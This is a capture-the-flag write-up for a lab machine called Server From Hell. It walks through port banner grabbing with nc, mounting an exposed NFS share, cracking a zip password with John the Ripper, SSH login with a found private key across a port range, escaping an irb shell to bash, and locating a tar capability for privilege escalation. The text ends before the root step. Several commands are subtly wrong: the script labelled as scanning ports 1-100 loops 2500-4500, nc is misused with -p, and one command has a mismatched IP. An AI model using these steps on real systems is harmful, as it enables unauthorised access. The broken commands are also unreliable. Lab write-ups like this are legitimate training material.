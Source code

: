 # SERVER FROM HELL WRITEUP
#### Author: DeadPackets

## [Task 1] Flag.txt | "Start at port 1337 and enumerate your way."
#### First connect to port 1337 with nc
```
Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says hes hiding on the first 100 ports
Try printing the banners from the ports
```

### Write a simple script to connect from ports 1 - 100:
```bash
#!/bin/bash
for port in {2500..4500}
do
    nc 10.10.10.10 -p $port
done
```
### Output of port 12345
```
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```
### NFS runs on port 2049
```
command:
showmount -e 10.10.10.10

output:
Export list for 10.10.10.10:
/home/nfs *
```
### Then just simply mount it
```
sudo mount -t nfs 10.10.0.10:/home/nfs /var/backups
```
### There is a file named backup.zip
#### But its password protected
```
zip2john backup.zip > hash
john hash -w ~/wordlists/rockyou.txt
```
### Once you've uncompressed the zip, we can see that it's hades's home directory
#### Output:
```
authorized_keys  flag.txt  hint.txt  id_rsa  id_rsa.pub
```
### Nice, we have the flag and an id_rsa key
##### The problem now is that we don't know which port ssh is running on, lets check the hint.
```
output:
2500-4500
```
## [Task 2] User.txt
#### this is probably refering the to range of ports that ssh is running on
#### lets modify our script
```bash
#!/bin/bash
for port in {2500..4500}
do
    ssh -i id_rsa hades@10.10.10.10 -p $port
done
```
### Now we just wait until we get a login prompt
#### Nice, we have a shell
```
 Welcome to hell. We hope you enjoy your stay!
 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

 ██░ ██ ▓█████  ██▓     ██▓    
▓██░ ██▒▓█   ▀ ▓██▒    ▓██▒    
▒██▀▀██░▒███   ▒██░    ▒██░    
░▓█ ░██ ▒▓█  ▄ ▒██░    ▒██░    
░▓█▒░██▓░▒████▒░██████▒░██████▒
 ▒ ░░▒░▒░░ ▒░ ░░ ▒░▓  ░░ ▒░▓  ░
 ▒ ░▒░ ░ ░ ░  ░░ ░ ▒  ░░ ░ ▒  ░
 ░  ░░ ░   ░     ░ ░     ░ ░   
 ░  ░  ░   ░  ░    ░  ░    ░  ░
                               
 Welcome to hell. We hope you enjoy your stay!
 irb(main):001:0>
```
### We have a shell, but its an interactive ruby shell
#### A simple command will allow us to spawn a shell
```
irb(main):001:0> system("/bin/bash")
```
### And we have user.txt
```
hades@hell:~$ ls
user.txt
```
## [Task 3] Root.txt
#### Now all we have to do is escalate our privs
#### Looking at the hint, we know that "getcap" has something to do with our escalation.
We can find capabilties with the following command
```
hades@hell:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```
### Looking at the output, we know that /bin/tar has read capabilites
##### It took me an embarrassingly long amount of time to realize that we did not have write access to /home/hades
##### So we need to do this in /dev/shm









